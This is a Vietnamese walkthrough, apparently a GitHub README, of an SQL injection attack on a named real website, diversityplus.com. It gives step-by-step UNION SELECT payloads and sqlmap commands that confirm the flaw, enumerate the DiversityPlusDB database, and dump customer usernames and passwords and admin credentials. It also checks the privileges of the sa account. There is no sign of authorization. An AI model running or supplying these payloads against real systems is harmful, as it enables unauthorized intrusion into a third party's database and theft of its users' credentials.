# Triển khai WEB
#### Thực hiện test trên web site `https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021`

#### Tiến hành kiểm tra xem web site này có dính lỗi SQL injection không bằng lệnh.
#### `https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021'`
#### Ta thấy rằng web site này đã bị dính lỗi sqli

#### Tiếp theo xác định số cột của web để khai thác data.
#### Với lệnh `ORDER+BY+5--+-` thì web trả về lỗi.

#### Giảm xuống `ORDER+BY+4--+-` thì lúc này web hết lỗi.

#### Tìm cột có thể lấy ra được thông tin dữ liệu.
#### `https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021'AND+1=0+UNION+SELECT+1,2,3,4--+-`

#### Lấy ra version mà web sử dụng.
#### `https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021'AND+1=0+UNION+SELECT+1,2,@@version,4--+-`

#### Kiểm tra trong sqlmap ta cũng lấy được version mà web dùng là  `Microsoft SQL Server`
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" --dbs`


#### Lấy ra list database mà website xử dụng.



...
#### Tiến hành lấy ra các bảng từ database vừa tìm được `DiversityPlusDB`
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB --tables`


#### Tiến hành lấy dữ liệu từ bảng `CustInfo`
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB -T CustInfo --columns`

#### Lấy ra tài khoản mật khẩu của người dùng.
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB -T CustInfo -C UserName,Password --dump`


#### Lấy ra tài khoản admin.
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB -T tblDPAdmin_UserMaster --columns`

#### Lấy dữ liệu từ các cột vừa tìm thấy.
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB -T tblDPAdmin_UserMaster -C UserID,UserRole,UserName,Pwd --dump`

#### Tiếp tục tiến hành kiểm tra xem tài khoản đó có phải tài khoản `sa` có thể thực hiện CRUD database hay không bằng lệnh
#### `sqlmap.py -u "https://diversityplus.com/FinTOC/DiversityChampions2.aspx?id=2TOC2021" -D DiversityPlusDB -T tblDPAdmin_UserMaster -C UserID,UserRole,UserName,Pwd --dump --privileges`
#### ==>Kết quả cho thấy tài khoản sa (một tài khoản mặc định trên SQL Server có quyền quản trị cao nhất) là administrator. Điều này có nghĩa tài khoản sa có toàn quyền kiểm soát cơ sở dữ liệu.



